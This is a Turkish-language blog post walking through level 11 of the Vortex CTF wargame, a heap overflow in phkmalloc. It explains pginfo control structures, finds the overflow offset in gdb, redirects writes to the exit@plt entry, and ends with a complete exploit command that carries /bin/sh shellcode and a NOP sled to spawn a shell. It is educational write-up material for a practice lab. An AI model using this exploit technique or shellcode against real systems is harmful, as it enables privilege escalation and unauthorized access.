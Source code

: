 ```yaml
---
title: "Vortex11 (Heap Overflow)"
date: 2017-09-11 23:50 -05:00
category: Buffer Overflow 
tags: [heap, malloc, exploit]
---
```


Merhaba arkadaşlar, bu yazıda vortex CTF oyununun 11.levelinin çözüm adımlarını anlatacağım. İlgileneceğimiz oyun, dinamik alan tahsilatları ile ilgili. Bir önceki yazıda değindiğimiz malloc'lardan ayrı olarak burada 'phkmalloc' kullanılmış. Konuyu ve oyunu anlayabilmemiz açısından, phkmalloc kaynak kodu ve diğer ek materyalleri incelememiz sağlıklı olacaktır. 

Verilen bilgiye göre; phkmalloc tarafından tahsis işlemi yapılan programın heap alanını bozup keyfimize göre kontrol edebilir hale getirmeliyiz. Heap alanını bozmaktan kastımız, ilgili alan için ayrılmış bölüme istenilenden fazla veri gönderip taşırmak. İşte biz buna **Heap Overflow zafiyeti** diyoruz. <!--more-->

Çözüme geçmeden evvel gerekli bilgileri hatırlayalım. İlk önce kullanılan malloc'un teknik özelliklerine bakalım. Phkmalloc operasyonu iki bellek yönetim katmanlarına dayanır. İlk en düşük katman, sadece bellek sayfaları hakkında, ikinci katman bellek chunkları hankındadır. Chunklar boyutlarına göre kategorize edilir.(intel i86 üzerinde) Küçük chunklar 16 ve 32 byte iken orta boyutlu chunklar, 64 byte'tan 2048 byte'a kadardır. Bir hafıza sayfası 4096 byte'dır. Tüm chunklar, aynı boyuta sahip belirli bir sayfada depolanır. Küçük ve orta boyutlu chunklar arasındaki farklar, verilen sayfanın kontrol yönetim sayfasının bulunduğu sayfalara göre ayrılır.
Pginfo yapıları 20 ve 32 byte aralığında bit alanları değişken genişliğindedir ve 32 byte chunklada depolanır. 16 byte chunk sayfaları haricinde kimi pginfo yapıları 48 byte'tır. Pgfree yapısı ise 20 byte'tır. 
Uygulamadaki sayfalar komşudurlar. Strcpy ile 0x10 boyutlu bellek chunkları tutan pageleri yazabiliriz (kontrol yapısı ile başlayarak). Buradaki amacımız, kontrol yapısının üzerine yazmak ve böylece bir sonraki ayrılan chunk adresini kontrol etmek. Böylece strncpy ile keyfi bir bellek yazma gerçekleştireceğiz. Burada asıl yoğunlaşmamız gereken 'page pointer' olmalı. Çünkü; tahsisler bu adrese bağlantılı yaplır. Bir sonraki tahsisin adresi --> page_ptr_address + 0x40 olmalı.

Bu aşamada karşımıza önemli bir ayrıntı çıkıyor: Bildiğimiz gibi free fonksiyonu tahsisi yapılmamış boş chunkları, tahsis edilmiş hafızadan siliyor. Ama bunu yaparken de unlink() fonksiyonunu çağırıyor. Unlink hijacking süreci, sahte chunk alanları ile kontrole izin verir. Böylece hafızada hemen hemen her yere 4 byte yazmabilir hale geliyoruz. Taşma zafiyetlerinin anlaşılabilmesi için bu ayrıntının iyi bilinmesi gerekiyor.

Gerekli bilgileri hatırladıktan sonra yavaştan çözüm adımlarına geçebiliriz. İlk aşamada yukarıda bahsettiğimiz 'pginfo' yapısını görelim:


```c
struct pginfo {
 struct pginfo     *next;  /* next on the free list */
    void    *page;         /* Pointer to the page */
    u_short   size;  /* size of this page's chunks */
    u_short   shift;  /* How far to shift for this size chunks */
    u_short   free;   /* How many free chunks */
    u_short   total;  /* How many chunk */
    u_int    bits[1]; /* Which chunks are free */
};
```
Uygulamamızdaki açık 2 malloc arasındaki strcopy fonksiyonunun varlığından kaynaklanıyor. Teorik olarak; strcpy'yi kullanarak r'nin chunk'ındaki adresi değiştiryoruz.


Uygulamada bulunan pointerların çalışma sırasında aldığı adres değerlerini öğrenmek için 'ltrace' aracını kullanabiliriz. 

![_config.yml]({{ site.baseurl }}/images/ltrc.png)

Karşımıza çıkan listede açık bir şekilde gözüktüğü gibi ilk  strcpy'den önceki tahsisin yani r pointerının değeri 0x804e800 'dür. Aynı şekilde  strcpy'den sonraki yani s pointerının değeri ise 0x804f040 'dır.
Bu adresler ışığında ilk yapmamız gereken sınır değere yani offsete ulaşmamız gerekiyor. Tahsislerin ilk 0x40 byte'lık bölümü kontrol yapısıdır. Bu yüzden s pointerından r pointerına, kontrol yapısı hariç 2048 byte fark vardır. Yani 0x804f000-0x804e800 = 2048. Elimizdeki offsete kadar 'A' karakteri doldurup neler olduğuna bakalım:

**vortex11@melinda:/vortex$ gdb -q vortex11**
**(gdb) b main**
**(gdb) r $(python -c 'print "A"*2048') BBB**
**(gdb) ni**
 **.**
 **.**
 **.**
**(gdb) ni **
//strncpy fonksiyonu çalışana kadar devam
**(gdb) x/5000x 0x804e800**       //r pointerından sonraki alanlara bakıyoruz.

Görüldüğü gibi 0x804f000 adresine kadar 41 değeri yerleşmiş ama 4 byte'lık alan boş. Bu noktada yeni offsetimiz 2052 oluyor. Burada asıl işlem yapacağımız adres  0x804f000 'dır. Bu adresi değiştirmemiz gerekiyor. Yerine yazacağımız adres, exit@plt tablosundaki jmp 'ın adresi(0x804c028) olacak. Ama bu adresten de 0x40 değerini çıkarmamız gerekiyor. Yani yeni değer --> 0x804bfe8 oluyor.

Sonraki aşamada ikinci argümana girdiğimiz adres çalıştırabileceğimiz adres olacak.

**(gdb) r $(python -c 'print"A"*2052+"\xe8\xbf\x04\x08"') $(python -c 'print "\xef\xbe\xad\xde"')**

Komutunu çalıştırdıktan sonra ünlü 'deadbeef ' terimini de gördüğümüze göre geriye pek bişey kalmadı. Olayın can alıcı noktasını başardık. Bu noktadan sonra çalıştırmasını istediğimiz adrese shellcode'umuzu koyacağız.

**vortex11@melinda:/vortex$ ./vortex11 $(python -c 'print"\x90"*25+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"+"A"*2002+"\xe8\xbf\x04\x08"') $(python -c 'print "\x01\xe8\x04\x08"')**
 
Gördüğümüz gibi 2052 değerindeki offsetimiz 2002 'ye düşmüş. Bunun nedeni, ilk başa 25 adet nop yerleştirdik bu ; EIP değerini değiştirdiğimizde istediğimiz yere atladığı noktada hata yapmamamızı sağladı. Yani üstüne atladığında hiç bir işlem yapmadan olayı bağlıyoruz. Diğer 25 byte ise kabuk almamızı sağlayan shellcode'un kapladığı yer.  xe8\xbf\x04\x08, adresi bildiğimiz gibi exit@plt tablosunu işaret ediyor. 
İkinci argümandaki adres ise tablonun içine yazılan değeri gösteriyor. Burada küçük bir ayrıntı var son olarak onu belirtelim: ikinci argümandaki adresin değeri fark edebileceğiniz gibi  x00\xe8\x04\x08 olmalı. Ama python işlem yaparken sıfır adres değerini hesaba katmayıp istemediğimiz değerler koyuyor. O yüzden 1 artırdık ki 01 ile biten diğer nop'a atlasın.


![_config.yml]({{ site.baseurl }}/images/sss.png)
 
Görüldüğü gibi zafiyeti kullanarak kendimize bir shell açtık. Gelecek yazılarda görüşmek üzere :) 

